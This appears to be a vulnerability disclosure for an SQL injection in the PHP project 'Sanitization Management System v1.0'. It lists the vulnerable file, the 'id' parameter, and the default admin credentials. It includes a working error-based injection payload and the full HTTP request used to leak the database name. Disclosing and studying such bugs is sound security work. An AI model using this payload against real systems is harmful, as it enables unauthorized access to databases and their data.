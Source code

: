 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Distance

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-sms/admin/orders/assign_team.php?id=

Vulnerability location: /php-sms/admin/orders/assign_team.php?id=, id

dbname =sms_db,length=6

[+] Payload:  /php-sms/admin/orders/assign_team.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id


```sql
GET /php-sms/admin/orders/assign_team.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/195977803-8b2be1ca-722f-4c16-b4ef-69182726b671.png)
